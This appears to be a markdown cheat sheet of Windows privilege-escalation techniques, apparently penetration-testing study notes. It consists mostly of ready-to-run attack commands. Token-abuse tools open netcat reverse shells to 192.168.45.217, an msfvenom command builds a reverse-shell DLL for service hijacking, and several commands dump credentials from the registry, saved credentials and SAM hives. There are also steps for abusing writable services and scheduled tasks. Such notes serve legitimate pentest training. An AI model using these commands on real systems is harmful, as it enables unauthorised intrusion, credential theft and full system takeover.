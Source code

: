 ###  Privilege Token Abusing 

Do you have any token privileges that could be abused?

```
#User
whoami /priv

	#Print Spoof
	.\PrintSpoofer64.exe -i -c powershell.exe
	.\PrintSpoofer64.exe -i -c "nc -t -e C:\Windows\System32\cmd.exe 192.168.45.217 4444"
	
	#God Potato
	.\GodPotato-NET4.exe -cmd "powershell.exe"
	.\GodPotato-NET4.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.45.217 4444"
```


### Search for Information

Is there any interesting abnormal system files or folders that need to be enumerated?
##### Searching Folders
```
#Specific File Types
Get-ChildItem -Path C:\<folder>\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini, *bk, *backup*, -File -Recurse -ErrorAction SilentlyContinue

#All Files in Folder
Get-ChildItem -Path C:\<folder>\ -File -Recurse -ErrorAction SilentlyContinue

#Specific file name
Get-ChildItem -Path C:\ -Filter '<filename>' -File -Recurse -ErrorAction SilentlyContinue

#Keepass Database
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

### Service Exploiting


##### Running Services
```
#Services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

$AutoRun Services
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.StartMode -like 'Auto'}
```

##### Unquoted Service Paths
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

Get-WmiObject -Class Win32_Service | Where-Object { $_.State -eq 'Running' -and $_.PathName -notlike '*"*' } | Select-Object Name, PathName
```

##### Scheduled Tasks
```
schtasks /query /fo LIST /v
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName, TaskPath, State
```

##### Startup Apps

```
#If we can modify this directroy and add a shell. Then restart system.
 .\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

##### Shutting Down System
```
#Check SeShutdownPrivilege enabled
whoami /priv  

#Shuts system down
shutdown /r /t 0
```

##### Checking Permissions
```
#Check file and folder
icacls "C:\<service.exe>"
icacls "C:\<folder>\"

#check service start / stop
net stop <service_name>
Stop-Service <service_name>
```

##### Service Configuration Writable
```
#See configuration
sc.exe qc <service_name>

#Modify Configuration
sc.exe config <service_name> <option>= <value>
```
##### DLL Hijacking
```
1. Check can service be stopped and started.
2. Copy the service executable to your host and use ProcMon to monitor what DLLs the executable tries to run.
	Filter NAME NOT FOUND
	Filter .DLL
3. Check folder or path it is searching is writable.
4. Upload malicious executable. (msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f dll -o /tools/hijackme.dll)
5. Restart the service.
```

### Kernel Exploits

```
Methodology
1. Enumerate Windows version / patch level. (systeminfo)
2. Find matching exploits. (Google, ExploitDB, GitHub)
3. Compile and run.

Tools
- Windows Exploit Suggester - wesng
- Precompiled Kernel Exploits - SecWiki
- Watson - rasta-mouse

Notes
- Be careful these can be unstable and may crash the system.
```


### Credential Harvesting

##### Registry
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
##### History
```
Get-History
(Get-PSReadlineOption).HistorySavePath
```
##### Saved Creds
```
cmdkey /list
run as /savecred /user:<username> <reverse_shell>
```
##### SAM / HIVE
```
https://book.hacktricks.xyz/windows-hardening/stealing-credentials#stealing-sam-and-system

impacket-secretsdump -sam SAM -system SYSTEM LOCAL

#Remember when passing hashes to do both lm and nt eg.  XXXXX:XXXXX
```

### Automation
```
winPEAs
ADPEAs
```